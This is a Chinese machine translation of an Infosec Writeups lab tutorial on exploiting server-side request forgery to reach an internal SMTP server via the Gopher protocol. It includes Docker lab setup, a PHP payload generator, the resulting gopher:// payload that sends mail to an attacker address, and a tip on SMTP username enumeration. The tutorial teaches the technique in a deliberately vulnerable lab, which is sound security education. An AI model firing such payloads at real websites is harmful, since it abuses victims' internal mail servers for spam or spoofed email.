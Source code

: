 # 服务器端请求伪造内部 SMTP 访问

> 原文：<https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?source=collection_archive---------1----------------------->

关于 SSRF 攻击的介绍可以在分离媒体上阅读[初学者指南利用服务器端请求伪造(SSRF)漏洞](/exploiting-server-side-request-forgery-ssrf-vulnerability-faeb7ddf5d0e)

SSRF 可用于与 SMTP 交互，因此攻击者可以通过 SMTP 服务器从易受 SSRF 攻击的网站发送电子邮件。

![](img/9b43f017aa473fd419175b2816b4db44.png)

SSRF 攻击

# 实验室设置

```
git clone [https://github.com/rhamaa/Web-Hacking-Lab.git](https://github.com/rhamaa/Web-Hacking-Lab.git)
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab​
```

![](img/c287b533bdb32036a6e373dd0de2eb65.png)

索引页

*   HTTP 端口被有意转发到 8022，因为主机服务器端口 80 已经有一个服务在运行。

> 该实验室仅使用默认的 sendmail 设置，可能无法向某些电子邮件提供商(如 g Mail)发送(外发邮件)消息。

# SMTP(简单邮件传输协议)101

SMTP 是将邮件从发件人的 SMTP 服务器发送到邮件收件人的 SMTP 服务器的网络协议，默认情况下 SMTP 端口为 25，除此之外 SMTP 还有另一个端口 587 MSA(邮件提交代理)，端口 25 的区别在于端口 587 需要 SMTP *认证*。端口 587 更常用，因为它被认为比端口 25 更安全。

## 基本 SMTP 命令

![](img/1ee851678042f52965959e28e2c2d6f2.png)![](img/9cb231ac44a7bd8b140ce3b9cbb126bd.png)

使用 SMTP 命令的示例

> **琐事:**RCPT TO、VRFY 和 EXPN 命令可用于执行用户名枚举，这在进行 pentesting 时非常有用。

# SMTP 讨厌 HTTP

正如 Orange Tsai 在*Black Hat Asia 2019——SSRF 的新时代——利用趋势编程语言*中的 URL 解析器 *的演讲中所说的那样，“ *SMTP 讨厌 HTTP* ”，因为由于 SMTP 服务器本身的限制，HTTP 无法偷偷进入 SMTP。*

在`sendmail`中有一个 changelog，它说如果包以 *GET* 、 *POST* 、 *CONNECT* 或 *USER* 开始，它将拒绝。

```
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

将 HTTP 偷偷带到 SMTP 是绝对不可能的，因为它肯定会被拒绝，但可以使用 *Gopher* 和 HTTPS 协议来偷偷带到 SMTP 协议，这样就可以解决这个问题。

> 琐事:HTTPS 不支持像 gopher 这样的多行请求，因此如果你想通过 HTTPS 查询 SMTP，需要一个 CRLF 注入漏洞。

# 通过 Gopher 进行 SMTP 查询

SMTP 查询的 Gopher 语法如下。

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

下面的脚本可以用来自动生成有效负载。

```
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <[root@target.0xff.web.id](mailto:root@target.0xff.web.id)>',
                'RCPT TO: <[attacker@email.com](mailto:attacker@email.com)>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );$payload = implode('%0A', $commands); // memisahkan tiap command dengan newlineecho 'gopher://127.0.0.1:25/_' . $payload;
?>
```

> 在<端口>之后的 _ ( **下划线**):/表示 **gophertype** ，所以必须包含它，因为如果不包含该字符，有效载荷将被截断 1 个字符，例如有效载荷是 HelloWorld，如果不包含 _ 符号，有效载荷将变成 elloWorld..

# 攻击演示

生成地鼠负载

```
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <[root@target.0xff.web.id](mailto:root@target.0xff.web.id)>%0ARCPT TO: <[attacker@email.com](mailto:attacker@email.com)>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

输入已经生成到目标网站的有效负载。

![](img/5bd6e236233cf3f65dddff9da887717e.png)![](img/751572515c6bec1122f3a90879296543.png)

提交有效负载后的响应

有一封来自目标服务器的邮件。

![](img/d9c16e3e9f650f8005e30924f7337857.png)

电子邮件 Masuk

# 参考

*   [http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/)
*   【https://hackerone.com/reports/115748 号
*   【https://tools.ietf.org/html/rfc4266 
*   [https://server fault . com/questions/776489/what-exact-do-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs)
*   SSRF 的新时代——在流行的编程语言中开发 URL 解析器！

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)